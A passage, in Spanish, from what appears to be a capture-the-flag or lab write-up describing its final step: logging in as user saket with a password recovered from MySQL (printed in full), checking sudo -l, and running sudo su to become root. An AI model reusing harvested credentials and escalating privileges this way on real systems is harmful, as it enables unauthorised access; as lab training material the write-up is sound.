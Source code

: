 Y ponemos la contraseña que encontramos en l`mysql`...

```
Password = Saket@#$1337
```

Una vez siendo el usuario si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Por lo que si hacemos...

```shell
sudo su
```

Seremos `root` y ya lo habriamos terminado ;D
